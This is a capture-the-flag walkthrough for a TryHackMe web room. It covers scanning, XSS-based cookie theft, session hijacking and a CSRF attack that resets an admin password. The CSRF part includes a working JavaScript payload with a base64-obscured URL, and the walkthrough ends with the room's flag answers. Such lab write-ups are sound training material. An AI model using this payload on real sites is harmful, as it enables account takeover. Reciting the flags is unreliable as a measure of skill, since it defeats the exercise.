# [Whats Your Name?](https://tryhackme.com/room/whatsyourname)



[Whats Your Name?](https://tryhackme.com/room/whatsyourname) is listed as an medium room. Utilise your client-side exploitation skills to take control of a web app.

An overview of what we’ll be using is listed here:  

* Nmap scan
* Gobuster
* XSS Payload
* Burpsuite

## Challenge

This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks. To start the VM, click the Start Machine button at the top right of the task.

You will find all the necessary tools to complete the challenge, like Nmap, PHP shells, and many more on the AttackBox. Also, please add the hostname worldwap.thm in the hosts file.

"Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?"

## Enumeration

* Nmap scan

    ```
    nmap worldwap.thm -A 
    ```
    
    

* Directory scan with Gobuster

    ```
    gobuster dir -u http://login.worldwap.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
    ```
    
    

* Explore the web

    

* Trying to register

    

* Trying to login

    

## Exploitation

* Geting coockie with XSS

    * Setup listener
  
        

    * Resgister with XSS payload
  
        ```
        
        ```

        

    * Wait to get the coockie

        

    * Open login page and change the PHPSESSID with cookie
    
        
    
    * Get access to Moderator page

        

* Push to reset password admin via chat with CSRF payload

    * Get the parameter change password via burpsuite

        

        

    * Send CSRF payload via Chat
  
        ```
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', atob('aHR0cDovL2xvZ2luLndvcmxkd2FwLnRobS9jaGFuZ2VfcGFzc3dvcmQucGhw'), true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=admin1');
        </script>    
        ```

        

    * Login with admin user

        

## Answer the questions below

* What is the flag value after accessing the moderator account?

    
    
    ```
    ModP@wnEd
    ```

* What is the flag value after accessing the admin panel?

    

    ```
    AdM!nP@wnEd
    ```